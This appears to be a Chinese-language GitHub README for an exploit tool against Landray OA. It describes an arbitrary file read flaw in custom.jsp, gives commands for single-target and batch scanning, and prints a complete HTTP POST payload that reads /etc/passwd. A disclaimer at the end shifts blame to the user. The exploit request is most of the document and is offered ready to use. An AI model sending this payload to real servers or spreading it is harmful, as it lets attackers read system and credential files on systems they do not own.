



# Landray-OA_fileread
蓝凌oa custom.jsp存在任意文件读取漏洞。


## 工具利用

python3 Landray-OA_fileread.py -u http://127.0.0.1:1111 单个url测试

python3 Landray-OA_filereadpy -f url.txt 批量检测


## EXP

```
POST /sys/ui/extend/varkind/custom.jsp HTTP/1.1
Host: 127.0.0.1:10082
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.1294.71 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 42

var={"body":{"file":"file:///etc/passwd"}}
```



## 免责声明

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。
